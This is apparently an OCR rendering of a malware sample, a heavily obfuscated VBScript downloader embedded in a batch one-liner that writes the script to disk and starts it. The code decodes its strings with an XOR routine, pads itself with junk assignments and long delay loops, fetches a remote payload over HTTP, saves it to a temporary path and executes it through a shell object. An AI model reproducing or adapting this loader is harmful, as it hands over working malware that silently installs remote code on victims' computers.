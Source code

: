 (lEn(Am)/2)" "F4ra=(J7((8270-8232)) &amp; J7((5328/74))&amp;(miD(Am,(V3sl0m+V3sl0m)-1,2)))" "AxFE=(GNbiPp(mID(T1GCbB,((V3sl0m MOd Len(T1GCbB))+1),1)))" "A9y=A9y+J7(OyVNo(F4ra,AxFE))" "NeXT" "DxZ40=89" "enD fUNction" "Sub AylniN()" "N6nzb=92" "DIm GWJCk,Q3y,GKasG0" "FDu=47" "GWJCk=93961822" "UZ=32" "FoR Q3y=1 To GWJCk" "GKasG0=GKasG0+1" "neXt" "B1jq2Hk=63" "If GKasG0=GWJCk tHen" "KXso=18" "MA((-176+446))" "IP4=48" "Yq(A9y("0B3B1D44626E7E1020055D3C20230A3B0C503D31230C3700593135344D201B53772C39173D475E2826","QcOi4XA"))" "YTsWy=31" "elSe" "DO5gpmA=84" "A8=86" "EnD iF" "XyUP=64" "eND SuB" "sUB GKfD3aY(FaddNPJ)" "SDU0BLq=57" "DiM UPhqZ,KbcT" "DxejPK=88" "KbcT="Drn4AW"" "GROlc7=82" "sET UPhqZ=CREAteOBJecT(A9y("332A7B05156A211A46243629",KbcT))" "Gs0g=3" "UPhqZ.OpEn" "TF1=68" "UPhqZ.tyPE=6867-6866" "RDjmY=24" "UPhqZ.wrITe FaddNPJ" "WiFgvS=78" "UPhqZ.SaVeTOfIle RWRL,8725-8723" "AF=4" "UPhqZ.closE" "JC7sf2=1" "Cke4e" "JM=88" "EnD suB" "fuNCtIoN Yq(PDqi1)" "I0=22" "DiM YTwwO,BAU7Cz,Uv,JiYwVG,IK" "GJDnbE=32" "On ErrOR reSume NeXT" "B7bT=1" "Uv="Tk"" "ELw=73" "sEt YTwwO=CREaTeObjeCT(A9y("3C07082602241F7A383C0E3807",Uv))" "K4=62" "GAiF" "IS1cj=19" "Set Dzc0=YTwwO.eNVIrONMEnt(A9y("013B183400023A","EQiWw"))" "D9S=38" "RWRL=Dzc0(A9y("14630811720C14","XU3"))&amp;J7((8002-7910))&amp; Ql9zEF &amp; Ql9zEF" "AtCQ=95" "JiYwVG="FcQqQ"" "Tf=79" "sEt BAU7Cz=CrEATEoBjECT(A9y("2E38122329103E1725683B1C3D19123701",JiYwVG))" "QUY=56" "BAU7Cz.OpeN A9y("0D0E1E","KJ"),PDqi1,7387-7387" "JX2=58" "BAU7Cz.SeTReQuEstHeAdeR A9y("1F59242828","OM8J"),A9y("0D354C3D356B567A0F6B6B","VoL8XF")" "URkT=71" "BAU7Cz.SEnD()" "QdFeA6=65" "if BAU7Cz.StaTUstExt=A9y("652840353A542512023C5B3D572F27","S5I2A") then" "PwTLW23=36" "GAiF" "R4xYBS=63" "MA(4)" "PjL6m=46" "GKfD3aY BAU7Cz.ReSpONSEbody" "Fj98=72" "Else" "D7T=91" "IK="NNXFD0"" "NK=74" "SeT BAU7Cz= CreATeobJECT(A9y("033125365F3D213E326A68030210121060",IK))" "QJ=35" "BAU7Cz.oPeN A9y("2A2F0E","TmjZ8d"),A9y("07351B31556E40785D6F5D735D6F5E715B6F5E795D6E02291B33412B1F26","Ao" ),5022-5022" "UMp8=85" "BAU7Cz.SeTReqUesTheadER A9y("1439190A24","AFXwm"),A9y("371038301A716C5F7B6644","LUi")" "NluUc=93" "BAU7Cz.SENd()" "EOtR=44" "If BAU7Cz.STaTUSTexT=A9y("03510A3B3A51146F105F163B365E0C","OS0x") THen GKfD3aY BAU7Cz.REsPOnSeBODY" "Q6sMEZ=54" "I9Nl7=56" "end if" "Dq=54" "eND FuNCTioN" "fUNctIon OyVNo(U1,Brt0d)" "SNOW=59" "OyVNo=(U1 ANd noT Brt0d)oR(NOt U1 And Brt0d)" "QTi5K=54" "enD funcTION" "Sub Cke4e()" "WTOyAw=62" "dIM EuM,WIbud,NCiN,Fs8HJ" "A5AT=92" "NCiN=""""" "SX6=93" "WIbud=RWRL &amp; Ql9zEF &amp; A9y("4A330F3F","WdGbOGp")" "V5B7Zh=92" "M1p67jL RWRL,WIbud" "L13=45" "iF Fs8HJ="" tHen MA(4)" "CHaK=38" "EuM="Iqxkf"" "U56m=67" "SEt VP=creATeoBJEcT(A9y("262B081420010C453521141407",EuM))" "U5Quw=85" "VP.Run A9y("1023287B163629755C0D6C06270F1E01536C6E7551","UsNL") &amp; WIbud &amp; NCiN,2912-2912,5755-5755" "A6mfcYL=76" "End sUB" "JoxZ3=43" "AylniN" "suB GAiF()" "G4vzM=95" "Dim DCRml9g, CjoNOY9" "For DCRml9g = 68 To 6000327" "CjoNOY9 = Rvwr + 23 + 35 + 27" "Next" "KK0H=46" "enD sUb") do @echo %~i)&gt;"!GSI!" &amp;&amp; start "" "!GSI!" |